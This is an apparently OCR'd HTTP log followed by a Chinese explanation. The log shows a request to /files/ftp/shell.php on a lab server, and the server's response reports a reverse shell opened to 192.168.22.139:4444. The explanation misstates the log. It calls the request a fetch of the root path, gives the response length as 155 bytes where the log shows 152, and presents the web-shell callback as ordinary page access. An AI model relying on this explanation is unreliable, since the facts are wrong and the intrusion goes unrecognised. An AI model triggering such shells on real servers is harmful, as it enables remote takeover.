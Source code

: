 ```
Content-Length: 275
Keep-Alive: timeout=5, max=99
Connection: Keep-Alive
Content-Type: text/html; charset=iso-8859-1

<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>404 Not Found</title>
</head><body>
<h1>Not Found</h1>
<p>The requested URL was not found on this server.</p>
<hr>
<address>Apache/2.4.18 (Ubuntu) Server at 192.168.33.10 Port 80</address>
</body></html>
GET /files/ftp/shell.php HTTP/1.1
Host: 192.168.33.10
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
DNT: 1
Connection: keep-alive
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0

HTTP/1.1 200 OK
Date: Fri, 02 Oct 2020 17:40:21 GMT
Server: Apache/2.4.18 (Ubuntu)
Vary: Accept-Encoding
Content-Encoding: gzip
Content-Length: 152
Keep-Alive: timeout=5, max=98
Connection: Keep-Alive
Content-Type: text/html; charset=UTF-8

WARNING: Failed to daemonise.  This is quite common and not fatal.
Successfully opened reverse shell to 192.168.22.139:4444
ERROR: Shell process terminated

```

上面的日志是HTTP请求和响应之间在一个服务器（运行在Ubuntu上的Apache/2.4.18）和一个客户端（用户代理）之间的交互记录，该服务器的IP地址是192.168.33.10。这个日志显示了客户端试图访问服务器上特定资源的过程。

解析日志：

1. 第一个请求/响应：
   - 客户端发出HTTP GET请求，访问根路径("/")，试图获取默认页面。
   - 服务器以"200 OK"状态码做出响应，并返回了一个压缩的HTML内容，长度为155字节。
   - 接着，出现了一个WARNING警告，指示daemonise过程失败，但不是致命的。
   - 然后，它显示成功打开了一个反向shell到IP地址192.168.22.139的端口4444。
   - 最后，一个ERROR消息表明shell连接已终止。
